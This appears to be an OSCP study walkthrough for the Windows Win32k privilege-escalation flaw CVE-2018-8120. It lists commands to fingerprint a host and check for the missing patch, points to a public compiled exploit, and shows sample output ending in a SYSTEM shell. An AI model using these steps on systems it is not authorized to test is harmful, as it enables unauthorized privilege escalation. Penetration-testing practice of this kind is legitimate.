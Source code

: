 CVE-2018-8120 is a vulnerability in the Win32k component that affects Windows 7 SP1 and Windows Server 2008 R2 SP1. This is a good example for OSCP practice as it's reliable and affects systems you might encounter during the exam.

### Vulnerability Details

- The vulnerability exists in the way the Win32k component handles objects in memory
- Specifically, it's a NULL pointer dereference in the `NtUserSetImeInfoEx()` system call
- It affects systems that haven't been patched as of May 2018

### Pre-Requisites

- Windows 7 SP1 x64 or x86 (or Windows Server 2008 R2 SP1)
- Missing the May 2018 security updates (KB4103718)

### Exploitation Steps

1. **Identify a vulnerable system**:
   ```cmd
   systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
   ```

2. **Check for the patch**:
   ```cmd
   wmic qfe | find "KB4103718"
   ```
   If no results are returned, the system is likely vulnerable.

3. **Transfer the exploit to the target**:
   The compiled exploit can be found at various locations, including:
   - https://github.com/bigric3/cve-2018-8120

4. **Execute the exploit**:
   ```cmd
   cve-2018-8120.exe
   ```

### Expected Results

Upon successful exploitation, you'll see a new command prompt with SYSTEM privileges:

```
[*] CVE-2018-8120 exploitation by @bigric3
[*] Exploit for Windows 7 SP1 / 2008 R2 SP1
[+] GDI object allocated
[+] GDI object freed
[+] Pool fengshui...
[+] nt!HaliQuerySystemInformation pointer leaked: 0xFFFFF8800F4FD8A0
[+] nt!_KPROCESS UniqueProcessId offset: 0x180
[+] nt!_KPROCESS Token offset: 0x208
[+] nt!_KPROCESS ActiveProcessLinks offset: 0x188
[+] Current process: 0xFFFFF8800F228780
[+] System process: 0xFFFFF8800F241340
[+] Stealing System token...
[+] Token stealing completed successfully!
[+] Enjoy SYSTEM shell ;)

C:\>whoami
nt authority\system
```
